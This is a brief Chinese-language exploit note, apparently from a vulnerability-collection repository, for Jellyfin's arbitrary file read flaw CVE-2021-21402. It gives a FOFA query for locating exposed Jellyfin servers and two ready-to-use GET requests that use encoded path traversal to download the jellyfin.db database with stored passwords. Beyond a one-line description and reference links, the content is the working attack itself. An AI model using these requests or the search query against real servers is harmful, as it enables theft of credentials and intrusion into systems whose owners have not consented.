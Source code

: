 # Jellyfin 任意文件读取（CVE-2021-21402）

Jellyfin是一个免费软件媒体系统。在10.7.1版之前的Jellyfin中，带有某些终结点的精心设计的请求将允许从Jellyfin服务器的文件系统中读取任意文件。

fofa：

```
title="Jellyfin"
```

任意文件读取：

```
//以下请求jellyfin.db将从服务器下载带有密码的数据库
GET /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ HTTP/1.1
GET /Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db HTTP/1.1
```

![-w1093](media/16215838843080/16215839880736.jpg)


ref：

* https://nvd.nist.gov/vuln/detail/CVE-2021-21402
* https://securitylab.github.com/advisories/GHSL-2021-050-jellyfin/
* https://forum.ywhack.com/thread-115353-1-7.html